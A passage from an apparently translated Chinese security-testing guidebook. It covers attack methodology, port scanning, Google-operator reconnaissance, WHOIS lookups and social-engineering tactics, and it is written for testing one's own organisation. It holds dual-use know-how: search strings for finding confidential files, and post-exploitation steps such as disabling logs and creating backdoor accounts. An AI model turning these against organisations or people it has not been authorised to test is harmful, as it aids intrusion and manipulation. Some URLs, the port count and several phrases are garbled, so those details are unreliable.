在开始测试之前，拥有一个方法论至关重要。用于此类测试的流程与过去相同；主要区别在于目标以及实现目标的方式。今天的攻击可以从任何角度针对任何系统——而不仅仅是边界。测试每一个可能的入口点，包括合作伙伴、供应商和客户网络，以及家庭用户和移动设备。任何保护你系统的人类、计算机系统或物理组件（无论是在建筑内部还是外部）都是测试对象，并且需要进行测试。

## 方法论

在过去，许多漏洞测试涉及手动步骤。现在，扫描器自动化了各种任务，但它们不能替代对方法论的需求。过去，许多漏洞测试涉及手动步骤。现在，扫描器自动化了各种任务，但它们不能替代对方法论的需求。

当你开始进行测试时，你应该记录你执行的测试、使用的工具、进行的测试以及结果。这些信息可以帮助你完成以下操作：

- 跟踪之前测试的进展。
- 证明你做了什么。
- 在出现问题或疑问时，将你的测试与防火墙、入侵防御系统（IPS）或其他日志相关起来。
- 记录你的发现。

除了通用笔记外，尽可能对结果进行截图（使用 Snagit、Camtasia 或类似的工具）非常有帮助。这些截图在以后你需要证明发生过什么时非常有用，在生成最终报告时也会有用。此外，取决于你使用的工具，这些截图可能是你在编写最终报告时漏洞或利用的唯一证据。第 3 章列出了创建和记录安全测试计划的通用步骤。

第 4 章 攻击方法论 49


50 第 1 部分 为安全测试奠定基础


这些步骤不包括你用于社会工程学和物理安全评估的具体方法信息，但这些技术是通用的。我将在第 6 章和第 7 章分别详细介绍社会工程学和物理安全。

如果你在为客户进行安全评估，可能会采取“盲测”路线，这意味着你仅从公司名称开始，而没有其他信息。这种盲测评估方法允许你从零开始，并让你对恶意攻击者可以公开访问的信息和系统有更好的了解。无论你选择盲测（隐蔽）还是公开评估，请记住，测试方法可能花费更长时间，而且你可能会遗漏某些（或许多）安全漏洞的概率。盲测并不是首选的测试方法，但大多数人坚持使用它。

作为一名安全专业人员，你可能不需要担心掩盖行迹或规避 IPS 或相关的安全控制，因为你所做的一切都是法的，但你可能希望以隐蔽的方式测试系统。在本书中，我讨论了黑客用来隐藏其活动的技术，并针对这些隐藏技术概述了一些应对措施。

## 观察他人所见

从外部视角观察可以发现大量关于你组织和系统的可见信息，你通过一个被称为*足迹扫描（footprinting）*的过程来实现。以下是收集信息的方法：

- 使用网络浏览器搜索有关你组织的信息。Google 和 Bing 等搜索引擎是很好的起点。
- 运行网络扫描器、探测开放端口并寻找漏洞，以确定有关你系统的特定信息。作为内部人员，你可以使用扫描器、网络发现工具和漏洞扫描器（如 Nmap, SoftPerfect Network Scanner, 和 GFI LanGuard）来查看哪些是可以访问的，以及谁可以访问。

无论你是进行常规收集还是更具技术性的探测，请根据你的合理范围限制你收集的信息量。你可能会花费一小时、一天或一周来收集这些信息。你花费的时间取决于组织的大小以及你正在测试的信息系统的复杂性。

提示

你关于组织业务和信息系统能收集的信息可能是惊人的，而且通常在互联网上广泛可用。你的工作是找出那里有什么。从社交媒体到搜索引擎到专门的情报收集工具，如果你在正确的地点，就可以获得大量关于网络和信息漏洞的信息。这些信息可能允许恶意攻击者和员工访问敏感信息并针对组织的特定区域，包括系统、部门和关键人员。我将在第 5 章详细介绍信息收集。

## 扫描系统

主动信息收集会产生更多关于你网络的详细信息，并帮助你从攻击者的视角查看你的系统。你可以执行以下操作：

- 使用 WHOIS 提供的信息测试其他密切相关的 IP 地址和主机。当你映射并收集有关网络的信息时，你就能看到其系统的布局情况。这些信息包括确定 IP 地址、主机（通常是外部的，偶尔是内部的）、运行的协议、开放的端口、可用共享以及正在运行的服务和应用程序。
- 当内部主机在你的测试范围内时，对其进行扫描。（它们确实应该如此）。这些主机对外部人员可能不可见（你希望它们不可见），但你绝对需要测试它们，以查看异常（即使是好奇或误入的）员工、其他内部人员甚至由外部控制的恶意软件可以访问什么。最坏的情况是入侵者已经在内部建立了据点。为了安全起见，请检查你内部系统的漏洞。

如果你不习惯扫描你的系统，可以考虑使用带有测试系统的实验室或运行虚拟机软件的系统，例如：

- VMware Workstation Pro (https://www.vmware.com/products/workstation-pro.html)
- VirtualBox，一个开源的虚拟机替代方案 (https://www.virtualbox.org)


## 主机

扫描并记录从互联网和你的内部网络可以访问的特定主机。开始使用这些工具之一 ping 特定的主机名或 IP 地址：

- 你的操作系统（OS）内置的基本 ping 实用程序。
- 一允许你同时 ping 多个地址的第三方实用程序，例如用于 Windows 的 NetScanTools Pro (www.netscantools.com) 和用于 Linux 的 fping (http://fping.sourceforge.net)。
- Site WhatIsIP.com (www.whatisim.com) 显示了你的 IP 地址在互联网上的样子。只需访问该网站，你的公网 IP 地址（你的防火墙或路由器；最好不是你的本地计算机）就会出现。这些信息让你对世界所看到的最外层 IP 地址有一个大致了解。

## 开放端口

使用以下网络扫描和分析工具扫描开放端口：

- 使用 NetScanTools Pro 或 Nmap (http://nmap.org) 扫描网络端口。详情见第 9 章。
- 使用网络分析器监控网络流量，如 Omnipeek (www.savvius.com) 或 Wireshark (www.wireshark.com)。我将在本书的多个章节中讨论这个主题。

内部扫描很容易。只需将你的 PC 连接到网络，加载软件并开始即可。注意网络分段和内部 IPS 可能会阻碍你的工作。

扫描网络外部还需要几个步骤。连接并获取从外向内视角的最简单方法是分配你的公网 IP 地址，并将该系统插入防火墙或路由器公侧的交换机中。从物理上讲，计算机并没有在互联网上向内看，但这种连接的效果是一样的，你也可以从家里或远程办公室进行外向内扫描。

## 开放端口上运行的内容

作为一名安全专业人员，在扫描系统时需要收集内容。你通常可以识别出：

- 使用的协议，例如域名系统和 NetBIOS。
- 主机上运行的服务，例如电子邮件、Web 和数据库系统。
- 可用的远程访问服务，例如远程桌面协议、Telnet 和安全外壳（SSH）。
- 虚拟专用网络服务，如 SSL/TLS 和 IPSec。
- 网络共享的权限和验证要求。

你可以寻找以下示例开放端口（你的网络扫描程序报告为可用）：

- Ping (ICMP echo) 响应，显示允许往返 ICMP 流量。
- TCP 端口 21，显示 FTP 可能正在运行。
- TCP 端口 23，显示 Telnet 可能正在运行。
- TCP 端口 25 或 465 (SMTP 和 STPS)、110 或 995 (POP3 和 POP3S) 以及 143 或 993 (IMAP 和 IMAPS)，显示自己的服务器可能正在运行。
- TCP/UDP 端口 53，显示 DNS 服务器可能正在运行。
- TCP 端口 80、443 和 8080，显示 Web 服务器或代理可能正在运行。
- TCP/UDP 端口 135、137、138、139，特别是 445，显示 Windows 主机可能正在运行。

成千上万的端口可以是开放的 ——准确来说，每个端口对于 TCP（传输控制协议）和 UDP（用户数据报协议）都有 65,534 个。在本书中描述安全检查时，可能会涵盖常用的端口号。所有已知端口号（0–1023）和注册端口号（1024–49151）及其相关协议和服务的持续更新列表位于 www.iana.org/assignments/service-names-port-numbers/port-numbers.txt。你也可以在 www.cotse.com/cgi-bin/port.cgi 进行端口号查询。

第一部分 构建安全测试的基础


如果一个服务对 TCP 或 UDP 端口没有响应，并不意味着该服务没有运行。你可能需要进一步挖掘才能查明。

如果你在所测试的系统上检测到运行的服务器，你可能可以使用以下方法之一检查软件版本：

- 输入站点名称，后跟一个你不知道是否存在的页面，例如 `www.your.domain.com/1234.html`。许多服务器会返回一个显示详细版本的错误页面。
- 使用 Netcraft 的“What's That Site Running?” 搜索工具（www.netcraft.com），它可以根据 Web 服务器版本和操作系统连接到你的服务器，如图 4-1 所示。

你可以针对正在测试的主机获取更深层次的特定信息：

- [NMapWin](https://sourceforge.net/projects/nmapwin) 可以确定操作系统版本。
- 枚举工具（例如位于 https://www.softperfect.com/products/networkscanner 的 [SoftPerfect Network Scanner]）可以直接从 Windows 中提取用户、组和文件权限。



## 第 4 章 攻击方法论

当你连接到端口上运行的服务或应用程序时，许多服务会返回有用的 banner（横）信息。如果你通过命令行输入 `telnet mail.your_domain.com 25` 来连接到端口 25 的邮件服务器，你可能会看到类似的内容：

```
220 mail.your_domain.com SMTP all_the_version_info_
you_need_to_hack Ready
```

大多数服务器会返回详细信息，例如版本和当前安装的服务包。在获取这些信息后，你（以及那些坏人）可以从下一节列出的网站之一中确定系统的漏洞。

向无效地址发送邮件可能会返回详细的标头信息。退回的邮件会泄露可以用来对付你的信息，包括内部 IP 地址和软件版本。在某些 Windows 系统上，你可以使用这些信息建立未经认证的连接，有时甚至映射驱动器。我将在第 12 章中介绍这些问题。

## 漏洞评估

在发现潜在的安全漏洞后，下一步是确认它们在你的环境语文中是否为漏洞。在测试之前，先进行手动搜索。你可以研究网站和漏洞数据库，例如这些：

- 常见漏洞与披露 (http://cve.mitre.org/cve)
- US-CERT 漏洞说明数据库 (www.kb.cert/vuls)
- NIST 国家漏洞数据库 (https://nvd.nist.gov)

这些网站列出了已知的漏洞——至少是那些经过正式分类的漏洞。正如我在书中解释的，由于 许多其他漏洞在本质上更具通用性，无法轻易分类。如果你在这些网站之一上找到记录在案的漏洞，请搜索该厂商的网站。你还可以在 https://www.sans.org/critical-security-controls 找到常用漏洞的列表。该网站包含了 SANS 关键安全控制共识列表，该列表由 SANS 组织编制并更新。

如果你不想研究潜在的漏洞并想直接开始测试，你有几个选择：

- **手动评估：** 你可以通过连接暴露服务的部位或在这些地方进行尝试来评估漏洞。你应该手动评估系统（如 Web 应用程序）。之前数据库中的漏洞报告通常会披露如何这样做，至少是通性的。如果你有大量的空闲，手动执行这些测试可能对你有效。

- **自动评估：** 手动评估是学习的极佳方法，但人们通常没有时间完成大部分手动步骤。如果你像我一样，在可能时自动扫描漏洞并进行挖掘。

许多漏洞评估扫描器会对特定平台（如 Windows 和 Linux）和网络类型（有线或 Linux）测试缺陷。它们会测试特定的系统漏洞，并可能关注如 SANS 关键控制和开放 Web 安全项目 (https://www.owasp.org) 等标准。某些扫描器会映射 Web 应用程序内部的业务逻辑；另一些映射整个网络；还有的帮助软件开发者测试代码缺陷。这些工具的缺点是它们只能发现单个漏洞；它们并不一定会对跨整个网络的漏洞进行聚合和关联。这项任务正是你的技能以及你在书中分享的方法论大显身手。

我最喜欢的安全工具之一是 Rapid7 开发的名为 Nexpose 的漏洞扫描器（https://www.rapid7.com/products/expose）。它既是扫描器也是漏洞评估工具，为漏洞管理提供了巨大的帮助。你可以立即运行一次扫描，也可以安排定期扫描。

对于大多数优秀的安全工具，你需要为 Nexpose 支付费用。它不是最便宜的工具，但你物有所值，特别是在满足你的需求时（例如当你的业务需要 PCI DSS 时）。还有一个免费版本——社区版，用于扫描功能较少的小规模网络。其他可用的漏洞扫描器包括 QualysGuard (https://www.qualys.com) 和 GFI LanGuard (https://www.gfi.com/products-and-solutions/network-security-solutions)。

使用 Nexpose 等工具评估漏洞需要后续的专业知识。你不能仅仅依靠扫描器。你需要研究报告，并根据测试系统的内容和重要性提出你的建议。你会发现，高端漏洞扫描器会提供证据和可靠的信息，帮助你完成验证工作。

## 第 4 章 攻击方法论

## 渗透系统

你可以利用已识别的安全漏洞执行以下操作：

- 获取有关主机及其数据的更多信息。
- 获取远程命令提示符。
- 启动或停止某些服务或应用程序。
- 访问其他系统。
- 禁用日志或其他安全控制。
- 截屏。
- 访问敏感文件。
- 向管理员发送电子邮件。
- 执行 SQL 注入。
- 发起拒绝服务攻击。
- 上传文件或创建后门用户账户以证明对漏洞的利用。

Metasploit (https://www.metasploit.com) 非常适合利用你发现的许多漏洞，并允许你渗透许多类型的系统。理想情况下，你已经对是否要充分利用发现的漏洞做出了决定。你可能希望通过证明漏洞的存在而不对其进行利用来保持现状。

如果你想进一步研究漏洞和渗透测试方法论的最佳实践，我建议你查看《开放安全测试手册》(www.isecom.com/research/osmm.html)。渗透测试执行标准 (www.pentest-standard.org/index.php) 和 PCI DSS 渗透测试指南 (https://www.pcisecurity-standards.org/documents/Penetration_Testing_Guidance_March_2015.pdf) 也是很好的资源。

> 记住

58 第一部分 为安全测试构建基础

## 2 启动安全测试

## 本部分 . . .

- 寻找有关你业务的公开信息。
- 学习“黑客”人的艺术。
- 了解物理安全缺陷在哪里。
- 测试产生巨大风险的密码漏洞。

## 第 5 章信息收集

在确定你的组织面临哪些风险时，最重要的方面之一是找到有关你的业务和系统的可用信息。收集这些信息是你整体方法论中重要的一部分，因此我认为这个主题值得专门设章。

在本章中，我概述了一些免费、简单的方法，让你看到世界是如何看待你和你的组织的。

##收集收集信息

从互联网获取有关组织业务和信息系统的信息量是惊人的。为了亲身体验，请使用后续章节概述的技术来收集你所在组织的信息。


## 社交媒体

社交媒体网站是企业在线互动的新兴手段。浏览以下网站可以提供关于任何企业及其员工的无数详尽细节：

- [Facebook](https://www.facebook.com)
- [LinkedIn](https://www.linkedin.com)
- [Twitter](https://www.twitter.com)
- [YouTube](https://www.youtube.com)

正如我们所见证的，员工通常对自己的工作内容、业务细节以及他们对老板的看法直言不讳——尤其是在喝了些酒、他们的社交过滤机制失灵之后！我还在 Glassdoor (https://www.glassdoor.com/Reviews/index.htm) 上发现了一些关于人们对前雇主主议论的有趣见解。

## 网络搜索

执行网络搜索或仅仅浏览您组织的网站，可能会发现以下信息：

- 员工姓名和联系方式
- 公司重要的日期
- 注册备案文件
- 证券交易委员会 (SEC) 备案（针对上市公司）
- 关于实地搬迁、组织架构变更和新产品发布的新闻稿
- 合并与收购
- 专利和商标
- 演示文稿、文章、网络广播或网络研讨会（这些通常会暴露敏感信息——讽刺的是被标记为“机密”）

> [Bing](https://www.bing.com) 和 [Google](https://www.google.com) 可以从任何公开访问的计算机上挖掘从文字处理文档到图形文件的一切。它们是免费的。Google 是我喜欢的。整本书都是用 Google 写出来的，所以要预期任何犯罪黑客对使用这个工具都非常熟悉，包括针对你时。（关于 Google 攻击的更多信息请参阅第 15 章。）


第二部分 启动安全测试

通过 Google，你可以以几种方式搜索互联网：

- **输入关键词：** 这种搜索通常会揭示数百甚至百万页的信息——例如文件、电话号码和地址——而你从未猜过它们的存在。

- **执行高级网络搜索：** Google 的高级搜索选项可以找到链接回您公司网站的站点。这种搜索可以揭示大量关于合作伙伴、供应商、客户和其他的信息。

- **使用切换符深入挖掘网站：** 如果你想在自己的网站上找到某个词或文件，只需在搜索框中输入类似以下的一行代码：

```
site:www.your_domain.com keyword
site:www.your_domain.com filename
```

你可以对整个互联网进行通用的文件类型搜索，看看会搜到什么：

```
filetype:swf company_name
```

使用上述搜索查找 Adobe Flash .swf 文件，这些文件可以被下载并反编译，以暴露可用于攻击业务的敏感信息，正如我在第 15 章中详细的那样。

使用以下搜索寻找包含可能用于攻击业务的敏感信息的 PDF 文档：

```
filetype:pdf company_name confidential
```

## 网络爬虫

网络爬虫工具，如 HTTrack Website Copier (https://www.httrack.com)，可以通过下载其网站上每个公开访问的文件来镜像您的网站，类似于网络漏洞扫描器爬取其正在测试的网站的方式。然后你可以离线检查该网站的副本，挖掘以下内容：

- 网站布局和配置
- 其他可能并不明显或易于访问的目录和文件
- 网页的 HTML 和脚本源代码
- 注释字段

注释字段通常包含有用信息，如开发者和内部 IT 人员的姓名和电子邮件地址、服务器名称、软件版本、内部 IP 地址方案以及关于代码如何工作的通用注释。如果你感兴趣，可以通过在网络服务器的 `robots.txt` 文件中创建 `Disallow` 条目来防止某些类型的爬虫，如 www.w3.org/TR/html14/appendix/notes.html 所示。你甚至可以在某些防火墙和入侵防御系统中启用网络陷阱（tarpitting）。然而，足够智能爬虫（以及攻击者）可以找到绕过这些控制的方法。

> 开发者和 IT 人员的联系信息对于社会工程攻击非常有价值。我在第 6 章中介绍了社会工程。


## 网站

以下网站可能提供关于组织及其员工的具体信息：

- 政府和商业网站：
  - www.hoovers.com 和 https://finance.yahoo.com 提供了有关上市公司的详细信息。
  - https://www.sec.gov/edgar.shtml 显示了上市公司的 SEC 备案。
  - https://www.uspto.gov 提供专利和商标注册。
  - 你所在州的州务卿或类似组织的网站可以提供公司注册和公司官员信息。
- 背景调查和其他个人信息：
  - LexisNexis.com (https://www.lexisnis.com)
  - ZebraSearch (https://www.zabasearch.com)

## 绘制网络地图

作为绘制网络地图的一部分，你可以搜索公共数据库和资源，看看其他人对你的系统了解多少。

64 第二部分 启动安全测试

## WHOIS

最好的起点是使用互联网上提供的任何工具进行 WHOIS 查询。如果你不熟悉它，WHOIS 是一种你可以用于查询在线数据库（如域名系统 DNS 注册库）的协议，以获取更多关于域名和 IP 地址块的信息。你可能用过 WHOIS 来检查特定的互联网域名是否可用。

对于安全测试，WHOIS 提供了以下信息，可以帮助黑客发起社会工程攻击或扫描网络：

- 域名注册信息，如联系人、电话号码和邮件地址
- 负责域名的 DNS 服务器

你可以在以下位置查找 WHOIS 信息：

- **美国政府**: https://domains.dotgov/registration/whois.xhtml?m=3
- **AFRINIC**: https://www.afrinic.net（非洲互联网注册机构）
- **APNIC**: https://www.apnic.net（亚太地区互联网注册机构）
- **ARIN**: http://www.arin.net（北美、加勒比海地区）
- **LACNIC**: https://lacnic.net/cgi-bin/lacnic/whois（拉丁美洲和加勒比地区注册机构）
- **RIPE 网络协调中心**: https://apps.db.ripe.net/search/query.html（欧洲、中亚和中东）

如果你不确定在哪里查找特定国家，https://www.nro.net/about-nro/list-of-country-codes-and-ris-ordered-by-country 提供了一个参考指南。

我最喜欢的 WHOIS 工具是 DNSStuff (www.dnsstuff.com) 和 MXToolbox (https://toolbox.com)。例如，你可以运行 MXToolbox 执行以下操作：

- 显示通用域名注册信息
- 显示处理邮件的主机 (MX 记录)
- 映射特定主机的位置
- 判断主机是否列在某些黑列表中

廉价的商业工具 SmartWhois (https://www.tamos.com/smartwhois) 非常实用。另一个工具 NetScan Pro (https://nettools.com) 在收集信息方面非常出色。我在第 9 章中详细介绍了该工具和其他工具。

第 5 章 信息收集 65

## 隐私政策

检查您网站的隐私政策。良好的做法是让网站用户知道收集了哪些信息以及如何保护它们，但仅此而已。我见过许多隐私政策泄露了大量安全和相关系统的技术细节，而这些是不应该公开的。

> 确保编写隐私政策的人员（通常是非技术律师）不要透露过多关于你们安全计划或基础设施的细节。请避免这样一个例子：一个互联网创业商人联系我商讨业务机会。在对话过程中，他吹嘘公司的安全系统确保了客户信息的隐私（或他是这样想的）。我去他的网站查看隐私政策。他发布了正在使用的防火墙品牌和型号，以及关于其网络和系统架构的其他技术信息。这类信息完全可以被坏人用来攻击他。

66 第二部分 启动移动端安全测试


# 第 6 章

## 社会工程

社会工程利用了任何组织信息安全防御体系中最薄弱的环节之一：人。社会工程黑客攻击涉及恶意利用人类的信任本性，以获取可用于个人利益的信息。

社会工程是最难实施的黑客手段之一，因为要在陌生人面前表现得值得信赖需要胆量和技巧。它也是目前为止最难防范的，因为人们在其中涉及了自身的安全决策。

在本章中，我将探讨社会工程的后果、用于你自己的安全测试工作的技巧，以及防御社会工程的特定应对措施。

## 介绍社会工程

在社会工程场景中，有意图的人会伪装成他人，以获取他们无法通过其他方式获得的信息。然后，他们利用从受害者那里获得的信息对网络资源造成破坏，盗取或删除文件，甚至对他们攻击的组织实施企业间谍或其他形式的欺诈。社会工程与物理安全利用（如窥视屏幕和翻找垃圾桶）不同，但这两类攻击手段是相关的，并且经常结合使用。

**本章内容**
- 理解社会工程
- 审查社会工程的影响
- 执行社会工程测试
- 保护你的组织免受社会工程的影响

以下是一些社会工程的示例：

- **支持人员**声称需要在用户的计算机上安装补丁或新版本的软件，诱导用户下载软件并获取对系统的远程控制权。
- **供应商**需要更新组织的会计软件包或电话系统，索要管理员密码并获得完全访问权限。
- **员工**通知安保台他们丢失了数据中心的访问证，，从安保人员处收到一套钥匙，并获得了对物理和电子信息的未经授权访问。
- **钓鱼邮件**，用于收集毫无防备的接收者的用户 ID 和密码，或在他们的计算机上植入恶意软件。这些攻击在性质上可能是通用的，也更具针对性——称为鱼叉式钓鱼攻击。犯罪分子利用这些登录凭据或恶意软件获取网络访问、捕获知识产权、加密文件索索金等。

有时，社会工程工程师表现得像自信、博学的经理和高管。在其他时候，他们扮演极度无知或天真的员工。他们还可能伪装成其他人，例如 IT 顾问或维护人员。社会工程工程师非常擅长适应受众。要玩这种花招需要一种特殊的性格，类似于反社会人格者的性格。

有效的信息安全——特别是对抗社会工程所需的安全——往往始于并结束于用户。本书中的其他章节提供了关于技术控制的建议，这些有助于对抗社会工程工程师，而互动对你组织在任何时候的安全水平有着深远的影响。糖果安全类比是“外壳硬脆；内部软而有弹性”。硬脆的外层是机制层——例如防火墙、入侵防御系统和内容过滤——组织通常依赖这些层来保护其信息。内部软糯的部分是组织内部的人和流程。如果坏人穿过了厚实的外层，他们就可以破坏（大部分）毫无防的内层。

## 开始你的社会工程测试

我在本章中处理测试方法与我在后续章节中处理的方法相同。社会工程是一门艺术也是一门科学。作为安全专业人员，执行社会工程需要技巧，并且高度取决于你的性格以及对组织的整体了解。

如果社会工程对你来说并不自然，请考虑将本章的信息用于教育目的，以便发现如何防御它。如果现在聘请第三方进行此类测试最符合商业逻辑，请不要犹豫。

社会工程可能会损害人们的目标和声誉，机密信息可能会泄露，特别是在进行钓鱼测试时。做好计划并谨慎进行。

你可以通过数百万种方式执行社会工程攻击。从走大门伪装成你不是的人，到发起全位的钓鱼活动，世界是你的游乐场。正因如此，也因为在单一章节中训练特定的行为几乎是不可能的，我并不提供如何实施社会工程攻击的指导说明。相反，我描述了对我和其他人有效的特定社会工程场景。你可以根据自己的特定情况定制同样的技巧和技术。

组织的外部人员可能会将某些社会工程技术作为物理侵入测试。如果你对自己的组织执行这些测试，如果每个人都认识你，伪装成外部人员可能会困难。这种被识别的风险在较大的组织中可能不是问题，但如果你有一家小型、紧密的公司，人们可能会发现。

你可以将社会工程测试外包给外部公司，甚至让一个信任的同事为你执行测试。我在第 19 章涵盖了安全外包和测试的主题。

## 了解攻击者为何使用社会工程

人们使用社会工程进入系统并获取信息，是因为这是他们获取所需目标最简单的方法。他们宁愿让某人为组织打开大门，也不愿物理破解并承担被捕的风险。防火墙和访问控制等安全技术无法阻止一个坚定的社会工程工程师。

许多社会工程工程师缓慢地进行攻击以避免怀疑。社会工程工程师随时间收集碎片信息，并利用这些信息为他们试图操纵的组织创建一个更广泛的蓝图。这就是他们最大的资产之一：时间。他们拥有无限的时间，并将花费所需的时间确保攻击成功。或者，某些工程攻击可以通过快速的电话或邮件完成。使用的方法取决于攻击者的风格和能力。无论何种，你都处于劣势。

社会工程工程师知道许多组织有正式的数据分类、访问控制系统、事件响应计划或安全意识计划，他们利用了这些弱点。

社会工程工程师通常对很多事情（包括组织内外）都有了解，因为这些知识有助于他们的工作。受益于 LinkedIn 和 Facebook 等社交媒体平台，以及我在第 5 章中讨论的在线资源，社会工程工程师所需的各种类型的信息触手可及。社会工程工程师获取的组织信息越多，伪装成员工或其他信任内部人员就越容易。社会工程工程师的知识和决心让他们比未意识到社会工程工程师寻求的信息价值的管理层和员工处于优势地位。

## 理解影响

许多组织都有通过社会工程制造麻烦的敌人。这些人可能是寻求报复的现任或前工程师、想要领先的竞争对手或试图证明自己价值黑客。

无论是谁制造的麻烦，每个组织都面临风险——特别是考虑到普通公司广泛的互联网存在。跨越多个地点的大型公司由于其复杂性往往更加脆弱，但小型公司也可能受到攻击。从接待员、保安人员到高管和 IT 人员，每个人都是社会工程的潜在受害者。帮助台和呼中心员工特别容易受到攻击，因为他们接受过训练，乐于提供帮助和信息。

社会工程具有严重的后果。由于社会工程的目标是强制他人提供导致非法利益的信息，一切皆有可能。有效的社会工程工程师可以获取以下信息：


- >> 用户密码。
- >> 建筑甚至是机房的安保门禁卡或钥匙。
- >> 知识产权，如设计规范、源代码和其他研发文档。
- >> 机密财务报告。
- >> 私人且机密的员工信息。
- >> 个人身份信息 (PII)，如健康记录和信用卡信息。
- >> 客户列表和潜在销售对象。

如果泄露了上述任何信息，可能会导致财务损失、员工士气下降、客户忠诚度降低，甚至是法律和监管合规性问题。可能性是无尽的。

由于各种原因，社会工程攻击很难防范。其一是因为它们缺乏充分的记录。其次，社会工程师的限制仅限于他们的想象力。此外，由于存在许多方法，攻击后的恢复和保护非常困难。此外，防火墙和入侵防御系统看似坚硬的外壳往往产生一种虚假的安全感，使问题变得更加糟糕。

面对社会工程攻击，你永远不知道下一种攻击方法是什么。你能做的最好的事情是保持警惕，理解社会工程师的动机和方法论，并通过在组织内部持续的安全意识来防止最常见的攻击。我将在本章的其余部分讨论这些技术。

## 建立信任

信任 —— 极难获得，容易失去。信任是社会工程的核心。大多数人信任他人，直到情况迫使他们不再信任。人们想要互相帮助，特别是当信任可以建立且帮助请求看起来很合理时。大多数人希望在职场和生活中成为团队合作者，并意识到向本应该信任的信源透露过多信息会发生什么。这种信任让社会工程师能够实现目标。建立深层信任需要时间，但社会工程师可以在几分钟或几小时内获得它。他们是如何做到的？

- >> 亲和力：谁能不喜欢一个人呢？每个人都喜欢礼貌。社会工程师越友好——在不过分的前提下——他们得到心所愿几概率就越大。社会工程师经常通过建立共同兴趣来开始建立关系。他们经常利用研究阶段获得的信息来确定受者的喜好，并假装自己也喜欢这些东西。他们可以与受害者见面，并根据他们发现的关于受者的信息开始谈论当地运动或孤独有多么美好。几个低调且口辞得体的评论就可以一段良好关系的开始。

- >> 可信度：这在某种程度上取决于他们看起来像不像。社会工程师经常使用伪装 —— 装成新员工或受害者尚未见过的同事。他们甚至可能装成与该组织有业务关系的供应商。他们经常声称拥有影响人的权威。最常见的社会工程技巧是做些好事，从而让受害者觉得有义务报答，或者成为团队的一的一员。

## 利用关系

在社会工程师获得毫无防备的受者的信任后，他们诱导受害者透露比应该更多的信息。此时，社会工程师可以致命一击。社会工程师通过受害者感到舒适的面对或电子通信来实现，或者利用技术让受害者泄露信息。

## 通过言语和行为欺骗

狡猾的社会工程师有很多方法从受害者那里获取内部信息。他们通常口齿伶俐，专注于保持对话进行，给受害者留出充足的时间思考他们所说的话。然而，如果他们在社会工程攻击期间疏忽或过度焦虑，以下线索可能会出卖他们：

- 表现得过度友好或急切。
- 提到组织内知名人物的名字。
- 吹嘘自己在组织内的权威。
- 如果请求未得到满足就威胁要警告。
- 在被质问时表现得紧张（抿嘴、坐立不安 —— 特别是手脚，因为控制远离脸的身体部位需要有意识的努力）。
- 过于强调细节。
- 经历生理变化，如瞳孔放大或声调变化。
- 显得很赶。
- 拒绝提供信息。
- 主动提供信息并回答未被问的问题。
- 知道外人不应该知道的信息。
- 尽管已知是外人，仍使用内部术语或俚语。
- 问奇怪的问题。
- 在书面通信中拼错单词。

优秀的社会工程师不会在上述行为上表现明显，但这些迹象可能表明恶意行为正在进行。当然，某些人可能是反社会人格或精神病态者，你可能会遇到各种情况。（Psychology For Dummies, 2nd Edition, by Adam Cash [John Wiley & Sons, Inc.) 是研究人类心理这种复杂性的良好资源。

社会工程师为某人提供帮助，然后转头就问那个人是否在帮助他们。这种常见的社会工程技巧非常有效。社会工程师还使用所谓的逆向工程。他们提议在出现特定问题时提供帮助。一段时间后，问题发生了（通常是社会工程师所为），然后社会工程师修复了问题。他们可能以英雄的身份出现，进一步推进目标。社会工程师可能会向毫无防备的员工寻求帮助。是的 —— 他们直接请求帮助。许多人掉入了这个陷阱。

伪装很容易。社会工程师可以穿着相似的制服，制作假证，或仅仅表现得像其他人。人们想：“他看起来和行为起来像我们，所以他一定是我们自己。”社会工程师还假装是从外部电话线打来的。这种技巧是利用帮助台和叫中心人员的一种特别流行的方法。社会工程师知道员工很容易陷入惯性，因为他们的任务是重复的，比如说“你好，请问您的客户号码是多少？”

## 通过技术欺骗

技术可以让社会工程师的工作变得更容易 —— 更多。通常，恶意信息请求来自受害者认为可以识别的计算机或电子实体。通过伪造计算机名称、电子邮件地址、传真号码或网络地址很容易的。坦率地说，你可以针对这种攻击采取一些应对措施，正如下一节所述。

黑客可以通过发送要求受害者提供信息的邮件来通过技术欺骗。此类邮件通常提供一个链接，将受害者引导向专业的、看起来合法的网站，以“更新”此类账户信息、用户 ID、密码和社会安全码。他们可能在 Facebook 和 Twitter 等社交网络上使用这种花招。

许多垃圾邮件和钓鱼信息也采用了这种技巧。大多数用户被垃圾邮件和其他不想要的邮件及附件淹没，他们经常降低警惕并打开了不该打开的内容。这些邮件通常看起来专业且可信，经常欺骗人们透露他们绝不会为了交换礼物而提供的信息。当黑客已经入侵网络发送消息或创建虚假的互联网弹出窗口时，就会发生社会工程技巧。同样的技巧也通过即时消息和手机短信发生过。

在一些广为人知的事件中，许多计算机化的社会工程策略可以通过互联网代理服务器、匿名器、零售商和开放中继的 SMTP 服务器匿名执行。当人们陷入机密个人或公司信息的请求时，这些社会工程攻击的来源往往无法追踪。

## 执行社会工程攻击

社会工程的过程非常基础。通常，社会工程师通过发现有关人员、组织流程和信息系统的细节来执行攻击。有了这些信息，他们就知道了追求什么。社会工程攻击通常分四个简单的步骤进行：

1. 执行研究。
2. 建立信任。


- 3. 通过言语、行动或技术利用关系获取信息。
- 4. 将收集的信息用于恶意目的。

这些步骤可能包含许多子步骤和技术，取决于所执行的攻击类型。

## 确定目标

